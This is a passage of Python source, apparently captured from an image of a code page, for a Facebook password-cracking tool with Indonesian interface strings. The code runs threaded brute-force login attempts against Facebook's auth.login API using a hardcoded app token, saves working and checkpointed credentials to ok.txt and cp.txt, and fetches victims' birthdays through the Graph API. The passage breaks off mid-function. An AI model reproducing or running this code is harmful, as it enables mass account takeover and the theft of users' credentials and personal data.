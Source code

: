           if len(self.pw) ==0:
            continue
          for i in self.fs:
            try:
              self.fl.append({"id":i.split("<=>")[0],"pw":self.pw})
            except:
              continue
        except Exception as e:
          print(("  %s"%e))
          continue
        print((k+"\n["+p+"•"+k+"]"+p+"Proses Crack Sedang berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [cp] Disimpan Ke : cp.txt\n"))
        ThreadPool(30).map(self.brute,self.fl)
        #os.remove(self.apk)
        exit()
        break
      elif f in["d","D"]:
        try:
          while True:
            try:
              self.apk=isifile
              self.fs=open(self.apk).read().splitlines()
              break
            except Exception as e:
              print(e)
              continue
          self.fl=[]
          for i in self.fs:
            try:
              self.fl.append({"id":i.split("<=>")[0],"pw":generate(i.split("<=>")[1])})
            except:continue
        except:
          continue
        print((k+"\n["+p+"•"+k+"]"+p+"Proses Crack Sedang berjalan..."+k+"\n["+p+"•"+k+"]"+p+" Akun [OK] Disimpan Ke : ok.txt"+k+"\n["+p+"•"+k+"]"+p+" Akun [cp] Disimpan Ke : cp.txt\n"))
        ThreadPool(30).map(self.brute,self.fl)
        os.remove(self.apk)
        exit()
        break
  def bruteRequest(self, username, password):
    global ok,cp,ttl
    params = {"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",  "format": "JSON", "sdk_version": "2", "email": username, "locale": "en_US", "password": password, "sdk": "ios", "generate_session_cookies": "1", "sig": "3f555f99fb61fcd7aa0c44f58f522ef6"}
    api = "https://b-api.facebook.com/method/auth.login"
    response = requests.get(api, params=params)
    if re.search("(EAAA)\\w+", response.text):
      self.ok.append(username + " • " + password)
      print(("\r\x1b[0;32m[\x1b[0;37mOK\x1b[0;32m] %s • %s %s               "%(username,password,N)))
      ok.append(username + " • " + password)
      save = open("ok.txt", "a")
      save.write(str(username) + " • " + str(password) + "\n")
      save.close()
      return True
    else:
      if "www.facebook.com" in response.json()["error_msg"]:
        try:
          ke=requests.get("https://graph.facebook.com/"+str(username)+"?access_token="+open("login.txt","r").read())
          tt=json.loads(ke.text)
          ttl=tt["birthday"]
        except:pass
        self.cp.append(username + " • " + password + " • " + ttl)
        print(("\r\x1b[0;33m[\x1b[0;37mCP\x1b[0;33m] %s • %s • %s\x1b[0m   "%(username,password,ttl)))